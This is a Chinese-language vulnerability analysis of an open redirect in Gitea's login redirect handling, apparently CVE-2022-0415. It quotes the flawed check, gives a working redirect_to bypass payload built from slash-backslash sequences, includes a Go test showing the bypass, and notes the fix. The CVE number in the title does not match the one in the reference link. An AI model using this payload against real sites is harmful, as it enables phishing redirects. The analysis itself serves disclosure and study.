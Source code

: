 # CVE-2022-0415 gitea open redirect

## 漏洞信息

- 漏洞类型：开放式重定向
- 漏洞版本：gitea prior to 1.16.5
- 漏洞简介：浏览器差异导致的url绕过

## repo介绍
gitea是一个go语言实现的git服务器，目前在github上已经有29.7k个star。

## 漏洞分析
在gitea的登陆页面上，会附加一个`redirect_to`参数来确定成功登陆以后跳转的页面。处理逻辑定位到[这里](https://github.com/go-gitea/gitea/blob/main/modules/context/context.go)处理了跳转的逻辑，对需要跳转的`loc`进行了简单的检查，判断是否存在以当前gitea项目所在的`settings.AppURL`以外的内容，如果是就跳过这个`loc`。
```go
// RedirectToFirst redirects to first not empty URL
func (ctx *Context) RedirectToFirst(location ...string) {
	for _, loc := range location {
		if len(loc) == 0 {
			continue
		}

		u, err := url.Parse(loc)
		if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower(setting.AppURL))) {
			continue
		}

		ctx.Redirect(loc)
		return
	}

	ctx.Redirect(setting.AppSubURL + "/")
}
```
这里的检测方式可以被绕过。使用如下跳转参数
```
https://try.gitea.io/user/login?redirect_to=/\/\/\/\/\/\/\/\/\/\/\/\/\/\thedailywtf.com
```
这里简单写一段代码做测试
```go
package main

import (
	"fmt"
	"net/url"
	"strings"
)

func main() {
	loc := "/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\thedailywtf.com"
	u, err := url.Parse(loc)
	if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower("http://try.gitea.io"))) {
		fmt.Println("evil input")
	}
	fmt.Println(u)
}
```
输出内容为
```
/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5Cthedailywtf.com
```
说明成功绕过检测。然后这个url会被返回给浏览器。一部分浏览器在解析时会将这个url理解为
```
//thedailywtf.com
```
导致开放式重定向

## 修复方式
添加了判断，过滤上面出现的情形
![image](images/1.png)

## 参考链接
- https://huntr.dev/bounties/4fb42144-ac70-4f76-a5e1-ef6b5e55dc0d/
- https://nvd.nist.gov/vuln/detail/CVE-2022-1058